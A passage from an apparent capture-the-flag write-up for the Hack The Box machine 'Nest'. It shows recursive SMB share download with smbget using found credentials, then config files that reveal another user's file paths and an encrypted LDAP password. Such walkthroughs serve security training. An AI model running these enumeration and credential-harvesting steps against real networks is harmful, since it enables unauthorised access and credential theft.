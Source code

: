   
Instead of retrieving those files from `Data` individually, we can bulk-download them using `smbget` this way:
```
kali@kali:~/htb/boxes/nest/smb/demo$ smbget -R smb://nest.htb/Data/ -U TempUser%welcome2019
Using workgroup WORKGROUP, user TempUser
smb://nest.htb/Data//IT/Configs/Adobe/editing.xml                                                                                                  
smb://nest.htb/Data//IT/Configs/Adobe/Options.txt                                                                                                  
smb://nest.htb/Data//IT/Configs/Adobe/projects.xml                                                                                                 
smb://nest.htb/Data//IT/Configs/Adobe/settings.xml                                                                                                 
smb://nest.htb/Data//IT/Configs/Atlas/Temp.XML                                                                                                     
smb://nest.htb/Data//IT/Configs/Microsoft/Options.xml                                                                                              
smb://nest.htb/Data//IT/Configs/NotepadPlusPlus/config.xml                                                                                         
smb://nest.htb/Data//IT/Configs/NotepadPlusPlus/shortcuts.xml                                                                                      
smb://nest.htb/Data//IT/Configs/RU Scanner/RU_config.xml                                                                                           
smb://nest.htb/Data//Shared/Maintenance/Maintenance Alerts.txt                                                                                     
smb://nest.htb/Data//Shared/Templates/HR/Welcome Email.txt                                                                                         
Downloaded 16.65kB in 45 seconds
kali@kali:~/htb/boxes/nest/smb/demo$ ls
IT  Production  Reports  Shared
```
If you went through these files, sooner or later you should come across some information that appear to be maybe useful:
```
kali@kali:~/htb/boxes/nest/smb/demo/IT/Configs/NotepadPlusPlus$ cat config.xml 
<?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>
(..snip..)
    <History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
</NotepadPlus>
```
Now we have some filenames inside `Carl`'s folder in the `Secure$` share, and on his `Desktop` folder. We can also reasonably conclude the `Carl` is `c.smith`.
```
kali@kali:~/htb/boxes/nest/smb/demo/IT/Configs/RU Scanner$ cat RU_config.xml 
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```
We also find `Carl`'s LDAP password (port 389) - however, it's encrypted, so we can't use it. If we could decrypt it, then we would be able to read the documents in `Carl`'s folders in the `Secure$` share and in his `Desktop` folder.
  